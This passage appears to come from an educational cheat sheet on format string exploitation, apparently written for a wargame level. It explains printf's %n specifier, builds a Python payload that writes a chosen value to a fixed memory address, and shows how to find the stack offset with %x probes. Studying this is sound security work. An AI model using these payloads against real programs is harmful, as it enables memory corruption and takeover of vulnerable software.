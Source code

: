 📖 Format Specifier Reference
📖 Format String Cheat Sheet

4. The %n Specifier (Writing Memory)
What %n does:
Writes the number of bytes printed SO FAR to the address pointed to by the argument.
Example:
cint count;
printf("Hello%n", &count);
// count now contains 5 (length of "Hello")
Exploitation:
python# Goal: Write 64 to address 0x0804988c

# Address of variable 'm'
addr = "\x8c\x98\x04\x08"

# We need to print 64 bytes total before %n
# Address itself is 4 bytes, so need 60 more
padding = "%60x"  # Prints 60 characters

# Direct parameter access (say 4th position)
write = "%4$n"

payload = addr + padding + write
How it works:
1. "\x8c\x98\x04\x08" - Address pushed to stack (4 bytes printed)
2. "%60x" - Prints 60 more characters (total: 64 bytes)
3. "%4$n" - Writes 64 to address at 4th parameter
Learn More:

📖 %n Exploitation
🎥 YouTube: Format String %n

5. Finding Stack Offset
Goal: Find where your input appears on the stack
Method:
bash# Put recognizable pattern at start
echo "AAAA.%x.%x.%x.%x.%x.%x" | ./level3

# Output example:
AAAA.200.b7fd1ac0.b7ff37d0.41414141.2e78252e
#                            ^^^^^^^^
#                            This is our "AAAA" (0x41414141)
#                            It's at position 4!
Testing:
bash# Verify with direct access
echo "AAAA%4$x" | ./level3
# Should output: AAAA41414141
Learn More:
